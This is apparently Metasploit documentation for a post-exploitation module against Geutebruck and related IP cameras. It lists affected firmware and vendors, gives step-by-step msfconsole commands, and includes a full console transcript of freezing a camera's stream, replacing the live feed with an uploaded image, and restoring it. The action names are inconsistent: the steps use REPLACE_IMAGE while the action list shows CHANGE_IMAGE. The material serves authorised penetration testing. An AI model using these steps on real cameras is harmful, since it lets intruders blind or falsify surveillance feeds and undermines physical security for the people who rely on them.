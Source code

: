 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27,
firmware version 1.12.13.2 or firmware version 1.12.14.5:

* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:

  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module will take an existing session on a vulnerable Geutebruck Camera and will allow the user to either
freeze the camera and display the last image from the video stream, display an image on the camera, or restore
 the camera back to displaying the current feed/stream.

Users can find additional details of the related vulnerabilities on the
blogpost page at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps
### Freezing camera stream on the current image
  1. Launch `msfconsole`
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action FREEZE_CAMERA`
  6. Do: `run`
  7. The image should be frozen

### Replacing camera stream with a custom image
  1. Launch `msfconsole`
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action REPLACE_IMAGE`
  6. Do: `set IMAGE /local/image/path/to/upload`
  7. Do: `run`
  8. The image should be replaced by the custom one

### Restoring the current camera stream
  1. Launch `msfconsole`
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action RESUME_STREAM`
  6. Do: `run`
  7. The stream should be resumed

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
msf6 > use post/linux/manage/geutebruck_post_exp
msf6 post(linux/manage/geutebruck_post_exp) > show options

Module options (post/linux/manage/geutebruck_post_exp):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   IMAGE                     no        Full path to the local copy of the image to upload
   SESSION                   yes       The session to run this module on.


Post action:

   Name           Description
   ----           -----------
   FREEZE_CAMERA  Freeze the camera and display the last image taken from the video stream


msf6 post(linux/manage/geutebruck_post_exp) > show actions

Post actions:

   Name           Description
   ----           -----------
   CHANGE_IMAGE   Display an arbitrary image instead of the video stream
   FREEZE_CAMERA  Freeze the camera and display the last image taken from the video stream
   RESUME_STREAM  Resume the camera's video stream and display the current live feed

msf6 post(linux/manage/geutebruck_post_exp) > set IMAGE /var/randori.jpg
IMAGE => /var/randori.jpg
msf6 post(linux/manage/geutebruck_post_exp) > set action CHANGE_IMAGE
action => CHANGE_IMAGE
msf6 post(linux/manage/geutebruck_post_exp) > set session 1
session => 1
msf6 post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Uploading a custom image...
[*] Backing up the original main.js...
[*] Using the new main.js...
[*] Done! The stream should be replaced by your image!
[*] Post module execution completed
msf6 post(linux/manage/geutebruck_post_exp) > set action FREEZE_CAMERA
action => FREEZE_CAMERA
msf6 post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Taking a snapshot of the current stream to use as the static image to freeze the stream on...
[*] Freezing the stream on the captured image...
[*] Backing up the original main.js...
[*] Using the new main.js...
[*] Stream frozen!
[*] Post module execution completed
msf6 post(linux/manage/geutebruck_post_exp) > set action RESUME_STREAM
action => RESUME_STREAM
msf6 post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Resuming stream...
[*] Restoring main.js backup...
[*] Restored! Stream back to a normal state.
[*] Post module execution completed
```